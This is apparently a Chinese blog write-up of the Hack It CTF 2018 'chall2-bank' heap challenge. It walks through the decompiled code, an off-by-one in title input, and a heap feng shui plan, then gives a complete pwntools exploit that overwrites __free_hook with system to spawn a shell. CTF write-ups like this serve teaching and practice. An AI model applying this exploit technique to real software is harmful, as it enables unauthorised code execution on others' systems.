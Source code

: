 ```yaml
---
title: chall2-bank
date: 2018-10-20 23:37:51
tags: pwn FengShui heap
layout: default
---
```

hack it ctf 2018
chall2-bank
<!--more-->
# start
前几天写的当时记得保存了....
然后今天重建博客的时候发现没了...

# Analysis
这几天看了hitcon的pwn题感觉菜单题还是挺友好的
程序主要是以下功能
```arm
Letter
1. Create an account
2. Edit the title
3. Edit your statement
4. Shut down your account
5. View your bank status
```
主要涉及到的结构体是:
```arm
00000000 act             struc ; (sizeof=0x28, mappedto_6)
00000000 check           dq ?
00000008 size            dq ?
00000010 statement       dq ?                    ; offset
00000018 title           db 16 dup(?)
00000028 act             ends
00000028
```

本题特色每次做完操作都会检查一遍malloc_hook 和 每个被记录的act的chec位
```arm
__int64 check()
{
  __int64 result; // rax
  signed int i; // [rsp+4h] [rbp-Ch]

  for ( i = 0; i <= 19; ++i )
  {
    if ( account[i] && *(_DWORD *)account[i]->check != 0x60C0C748 )
    {
      puts("LOL you are bankrupt");
      exit(0);
    }
  }
  result = *(_QWORD *)dlsym((void *)0xFFFFFFFFFFFFFFFFLL, "__malloc_hook");
  if ( result )
    exit(0);
  return result;
}
```
每次malloc的大小都是fastbin内

# 漏洞
漏洞点比较明显:
```arm
unsigned __int64 add()
{
  int size; // [rsp+0h] [rbp-20h]
  int i; // [rsp+4h] [rbp-1Ch]
  act *ptr; // [rsp+8h] [rbp-18h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  for ( i = 0; i <= 19 && account[i]; ++i )
    ;
  if ( i <= 19 )
  {
    ptr = (act *)malloc(0x28uLL);
    ptr->check = (__int64)&magic;
    LODWORD(ptr->size) = 16;
    printf("Enter title of bank account: ");
    read(0, ptr->title, 0x11uLL);               // offbyone
    printf("Enter size of your bank statement: ", ptr->title);
    fflush(stdout);
    scanf("%d\n", &size);
    fflush(stdout);
    if ( size + 8 > 0x70 )
    {
      puts("Only fast allowed");
      exit(0);
    }
    if ( size <= 0 )
      exit(0);
    ptr->statement = (char *)malloc(size + 8);
    fgets(ptr->statement, size, stdin);
    account[i] = ptr;
    printf("Account has been created at index %d\n", (unsigned int)i);
  }
  else
  {
    puts("No space left");
  }
  return __readfsqword(0x28u) ^ v4;
}
```
在读入title的时候offbyone

# 思路
* offbyone 盖掉size free进入unsorted bin
* malloc调整堆块leak出heap和libc（虽然heap没啥用...）
* 因为mallochoook没得用又是full relro 所以只能找其他hook
    * free_hook 首选...
    * 首先做fastbin atk 改写掉topchunk指针到freehook前
    * 但是free_hook前没啥可以作为size位的数据所以要自己构造 用unsorted bin atk
    * 然后做一个fastbinatk 之前要在fast bins 中留下size位
* 改写free hook->system free("/bin/sh")

# 风水(坑点)
* 前方留下一堆和act size一样的chunk 到后面0x30不够用了就free一些优化结构
* 做完泄露之后别急着继续，先去调整一下heap 
* 泄漏完之后不要把unsorted bin 放进 smallbin 否则你会后悔的
* 在fastbin留下做fastbinatk的size1位
* 先想好再构造否则改死你

# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("bank status\n",str(c))
def add(title,size,state="A"):
	cmd(1)
	p.sendafter("Enter title of bank account: ",title)
	p.sendlineafter("Enter size of your bank statement: ",str(size-8))
	p.sendline(state)
def free(idx):
	cmd(4)
	p.sendlineafter("Enter index of bank account: ",str(idx))
def show(idx):
	cmd(5)
	p.sendlineafter("Enter index of bank account: ",str(idx))#
#context.log_level='debug'
p=process("./chall2-bank")
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
add("A"*11,0x28)
free(0)
add("A"*11,0x38)#0
add("A"*0x10+'\xd1',0x28)#1
add("A",0x28)#2
add("A",0x28)#3
free(0)
add("A",0x70)#0
fake=0x00007f7a1d095000
#leak
show(2)
p.readuntil("Title: ")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7bcdb78-fake)
p.readuntil("Statement: ")
heap=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x555555757130-0x555555757000)
log.warning(hex(base))

libc.address=base

#fix
free(3)
add("A",0x48)#3
#fixover
#leakover
add("B"*11,0x28)#4
free(4)
add("B"*11,0x38)#4


##5
cmd(1)
p.sendafter("Enter title of bank account: ","B"*0x10+'\xf1')
p.sendlineafter("Enter size of your bank statement: ",str(0x48-8))
p.send("\x00"*0x38+'\x41\x00\x00\x00\x00\x00\x00\x0a')
##5

free(1)
add("A",0x70,p64(0)*3+p64(0x21)*9)#1
add("B",0x70)#6
add("C",0x28)#7

free(5)
free(4)
free(1)
free(7)

add("A",0x58,p64(0)*7+p64(0x51)+p64(0x7ffff7bcdb50-fake+base))#1
add("A",0x58,p64(0)*3+p64(0x41)+p64(0)+p64(0x81)+p64(0x51))#4

add("A",0x70,p64(0)*3+p64(0x21)+p64(0)+p64(0x31)+p64(0)+p64(0x7ffff7bcf7a0-fake+base-0x10)+p64(0x00000000000020)+p64(0x20)*3)#5
add("A",0x48)#7

add("CCTV",0x28)#8

free(8)

add("A",0x48,p64(0)*3+p64(0x7ffff7bcf7a0-8-fake+base)+p64(0)+p64(0x7ffff7bcdb78-fake+base)+p64(0x7ffff7bcdb78-fake+base))#8

add("A",0x18,p64(0x7ffff784e390-fake+base))

add("A",0x18,"/bin/sh")#10

free(10)
p.interactive("neir>")



```